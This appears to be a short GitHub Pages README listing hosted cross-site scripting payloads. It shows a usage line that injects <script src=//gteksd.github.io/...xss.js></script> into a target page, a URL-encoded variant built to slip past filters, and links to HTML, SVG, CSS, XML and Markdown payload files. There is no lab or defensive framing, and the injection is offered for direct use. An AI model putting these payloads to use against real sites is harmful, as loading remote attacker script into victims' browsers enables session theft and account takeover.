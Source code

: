 # [gteksd.github.io](https://gteksd.github.io/)

https://gteksd.github.io/portfolio/Payloads/xss.js

#### Payloads
```
Usage: <script src=//link></script>

EX: <script src=//gteksd.github.io/portfolio/Payloads/xss.js></script>
    %3cscript%20src=//gteksd.github.io/portfolio/Payloads/xss.js%3e%3c/script%3e  

%3c = <
%20 = space
%3e = >
```
```
https://gteksd.github.io/portfolio/Payloads/div-xss.html
https://gteksd.github.io/portfolio/Payloads/img-xss.html
https://gteksd.github.io/portfolio/Payloads/svg-xss.html
https://gteksd.github.io/portfolio/Payloads/xss.css
https://gteksd.github.io/portfolio/Payloads/xss.html
https://gteksd.github.io/portfolio/Payloads/xss.js
https://gteksd.github.io/portfolio/Payloads/xss.md
https://gteksd.github.io/portfolio/Payloads/xss.xml
```
